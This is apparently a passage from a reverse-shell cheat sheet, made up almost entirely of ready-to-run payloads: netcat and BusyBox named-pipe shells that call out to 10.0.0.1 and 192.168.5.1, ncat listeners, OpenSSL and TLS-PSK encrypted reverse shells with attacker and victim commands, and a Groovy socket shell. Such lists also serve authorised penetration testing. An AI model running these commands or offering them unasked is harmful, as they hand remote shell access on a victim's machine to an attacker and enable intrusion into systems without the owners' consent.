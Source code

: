 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 192.168.5.1 5555 >/tmp/f
```

### Busy Box

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

## Ncat

```
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## OpenSSL

Attacker:

```
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)

```
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

## Groovy

```
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
